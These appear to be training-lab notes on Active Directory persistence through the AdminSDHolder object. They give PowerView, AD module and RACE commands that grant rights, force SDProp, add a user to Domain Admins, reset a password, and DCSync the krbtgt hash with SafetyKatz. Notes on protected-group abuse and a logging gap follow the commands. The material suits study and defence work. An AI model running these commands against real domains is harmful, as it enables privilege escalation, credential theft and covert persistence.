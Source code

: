 **Essentially an ACL baseline that overwrites any changes made to protected groups. This can only be edited with DA (or equivalent) membership**

###### **Adding permissions to `AdminSDHolder` - OPSEC**

Add `FullControl` permissions for a user to the `AdminSDHolder` using PowerView as DA
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student548 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using `ActiveDirectory` Module and [RACE](https://github.com/samratashok/RACE) toolkit:
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

`ResetPassword` and `WriteMembers` permissions to `AdminSDHolder` and PowerView.
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

--- 
##### **After adding permissions to `AdminSDHolder`, `SDProp` must be ran/updated for the changes to take effect**

Manually run `SDProp` with Invoke-SDPropagator.ps1
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

For pre-Server 2008 machines
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

--- 
##### **Confirm permissions as a standard user**

PoweView
```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student548"}
```

ActiveDirectory Module
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'
```
---
##### Abusing Permissions

Abusing `FullControl` with PowerView and AD module
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

Add-ADGroupMember -Identity 'Domain Admins' -Members
testda
```


Abusing `ResetPassword` with PowerView and AD module
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText - Force) -Verbose
```

---
##### Gaining `DCSync` rights to the domain object

PowerView
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student548 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

AD Module
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```

Confirm permissions
```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student548"}
```

Manually run `SDProp` with Invoke-SDPropagator.ps1
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

Executing DCSync
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```


Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups)

Security Descriptor Propagator (`SDPROP`) runs every hour and compares the ACL of protected groups and members with the ACL of `AdminSDHolder` and any differences are overwritten on the object ACL

Protected Groups:

| Account Operators | Enterprise Admins            |
| ----------------- | ---------------------------- |
| Backup Operators  | Domain Controllers           |
| Server Operators  | Read-only Domain Controllers |
| Print Operators   | Schema Admins                |
| Domain Admins     | Administrators               |
| Replicator        |                              |

Well known abuse of some of the Protected Groups - All of the below
can log on locally to DC:

| Group             | Abuse                                                                                |
| ----------------- | ------------------------------------------------------------------------------------ |
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.          |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators  | Run a command as system (using the disabled Browser service)                         |
| Print Operators   | Copy ntds.dit backup, load device drivers                                            |

With DA privileges (Full Control/Write permissions) on the
`AdminSDHolder` object, it can be used as a backdoor/persistence
mechanism by adding a user with Full Permissions (or other interesting
permissions) to the `AdminSDHolder` object

In 60 minutes (when `SDPROP` runs), the user will be added with Full
Control to the AC of groups like Domain Admins without actually being a
member of it


> [!NOTE] **NOTE**
> Adding a new object to the `AdminSDHolder` won't generate any new logs for `WreiteDACL`. The only way to get insights of abuse is by turning logging on group within the Advanced Security Settings

